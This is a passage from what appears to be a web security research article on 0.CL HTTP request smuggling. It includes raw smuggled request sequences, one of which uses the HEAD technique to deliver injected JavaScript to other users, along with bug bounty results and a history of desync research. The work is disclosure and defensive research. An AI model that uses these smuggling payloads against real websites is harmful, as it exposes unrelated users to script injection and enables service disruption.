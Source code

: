 `POST /nul HTTP/1.1 Content-length: 163 GET / HTTP/1.1 Content-Length: 111 ??????: ??????????? --connection terminated--`

You can discover the length of the injected headers using the new [0cl-find-offset](https://github.com/PortSwigger/turbo-intruder/tree/master/resources/examples/0cl-find-offset.py) script for Turbo Intruder, but these often contain things like the client IP, which means the attack works for you but breaks when someone else tries to replicate it. This makes bug bounty triage painful.

After a lot of pain, I discovered a better way. Most servers insert headers at the end of the header block, not at the start. So, if our smuggled request starts before that, the attack will work reliably! Here's an example that uses an input reflection to reveal the inserted header:

`POST /nul HTTP/1.1 Content-length: 92` `HTTP/1.1 200 OK` `GET /z HTTP/1.1 Content-Length: 180 Foo: GET /y HTTP/1.1 ???: ???? // front-end header lands here POST /index.asp HTTP/1.1 Content-Length: 201 <redacted>=zwrt` `HTTP/1.1 200 OK` `GET / HTTP/1.1 Host: <redacted>``Invalid input zwrtGET / HTTP/1.1 Host:<redacted> Connection:keep-alive Accept-Encoding:identity`

From this point, we can use traditional CL.0 exploit techniques. On this target, I used the HEAD technique to serve malicious JavaScript to random users:

`POST /nul HTTP/1.1 Host: <redacted> Content-length: 44` `HTTP/1.1 200 OK` `GET /aa HTTP/1.1 Content-Length: 150 Foo: GET /bb HTTP/1.1 Host: <redacted> HEAD /index.asp HTTP/1.1 Host: <redacted> GET /?<script>alert(1 HTTP/1.1 X: Y``HTTP/1.1 200 OK Location: /Logon?returnUrl=/bb` `GET / HTTP/1.1 Host: <redacted>` `HTTP/1.1 200 OK Content-Length: 56670 Content-Type: text/html HTTP/1.1 302 Found Location: /Logon?returnUrl=/<script>…`

You can experiment with this technique yourself for free using our new Web Security Academy lab [0.CL Request Smuggling](https://portswigger.net/web-security/request-smuggling/advanced/lab-request-smuggling-0cl-request-smuggling).

Using these techniques, we initially identified around ten simple 0.CL vulnerabilities in websites with bug bounty programs. Many of these findings were on websites using a certain cloud WAF - this is not the first time we've seen a WAF making a website easier to hack. We were distracted by other discoveries at this point and didn't bother to weaponize any of the attacks beyond a DoS, so this only took the total bounties earned to $21,645. The best bounty experience was with [EXNESS](https://hackerone.com/exness?type=team) who awarded $7,500. As usual, the most valuable outcome wasn't the bounties themselves - it was the foundation this work provided for our subsequent findings.

### More desync attacks are coming

At this point, I thought the desync threat was finally fully mapped and future issues would be niche, one-off implementation flaws. This is a mistake I make every year. Here's a partial history of major advances in request smuggling:

*   2004: [HTTP Request Smuggling](https://www.cgisecurity.com/lib/HTTP-Request-Smuggling.pdf) – (largely forgotten)
*   2016: [Hiding wookies in HTTP](https://media.defcon.org/DEF%20CON%2024/DEF%20CON%2024%20presentations/DEF%20CON%2024%20-%20Regilero-Hiding-Wookiees-In-Http.pdf) (largely ignored at the time)
*   2019: [Exploit header parser discrepancies](https://portswigger.net/research/http-desync-attacks-request-smuggling-reborn) (CL.TE, TE.CL)
*   2021: [Exploit HTTP/2 downgrading](https://portswigger.net/research/http2) (H2.CL, H2.TE)
*   2022: [Exploit endpoints that ignore CL](https://portswigger.net/research/browser-powered-desync-attacks) (CL.0, H2.0, CSD)
*   2024: [Exploit dechunking](https://www.bugcrowd.com/blog/unveiling-te-0-http-request-smuggling-discovering-a-critical-vulnerability-in-thousands-of-google-cloud-websites/) (TE.0)
*   2025: [Exploit chunk extensions (TE.TE)](https://w4ke.info/2025/06/18/funky-chunks.html)
*   Just now: 0.CL desync attacks
